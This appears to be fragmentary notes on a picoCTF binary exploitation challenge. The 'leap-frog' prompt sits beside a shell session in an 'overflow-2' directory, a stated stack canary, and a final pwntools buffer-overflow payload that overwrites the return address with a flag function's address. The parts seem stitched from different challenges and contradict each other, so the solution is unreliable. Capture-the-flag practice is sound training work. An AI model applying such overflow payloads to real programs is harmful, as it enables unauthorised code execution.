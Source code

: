 # AUR

leap-frog - Points: 300 - (Solves: 41)Binary Exploitation - Unsolved
Solve
Hints
Can you jump your way to win in the following program and get the flag? You can find the program in /problems/leap-frog_6_772f62cb51a325a368a9d1563bf4058a on the shell server? Source.
Try and call the functions in the correct order!
Remember, you can always call main() again!

***

2kofawsome@pico-2019-shell1:~$ cd /problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446

2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ objdump -t vuln | grep flag
000007ed g     F .text  00000090              flag
but it is PIE?



Canary is 57Gh

Final payload:

python -c 'from pwn import * ;print "a"*32 + "57Gh" + "a"*60 + p32(0x000007ed)'



Flag:

picoCTF{}

